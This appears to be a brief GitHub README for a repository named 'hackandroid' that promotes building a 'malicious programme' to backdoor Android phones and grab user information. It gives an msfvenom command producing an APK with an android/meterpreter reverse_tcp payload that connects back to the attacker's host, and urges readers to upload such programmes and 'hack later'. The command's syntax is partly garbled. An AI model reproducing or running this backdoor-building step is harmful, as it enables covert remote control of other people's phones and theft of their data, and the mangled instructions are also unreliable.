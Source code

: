 # hackandroid
hackandroid


Creating a malicious programme that launches backdoor to android and grab user info from wifi to all kinda stuff
using msfvenom and upload programe to this page so everyone knows
its not a payload its an backdoor to your device 
==> list your programme
==> upload your programme
==> enjoy now!

==>HACK_LATER!!!


install msfconsole and msfvenom 
run this on terminal msfvenom -p android/meterpreter/reverse_tcp -LHOST <ifconfig on otherterminal(ip)> -LPORT <no ssh(port number)> >> <filename>.apk
  
  venom install in package
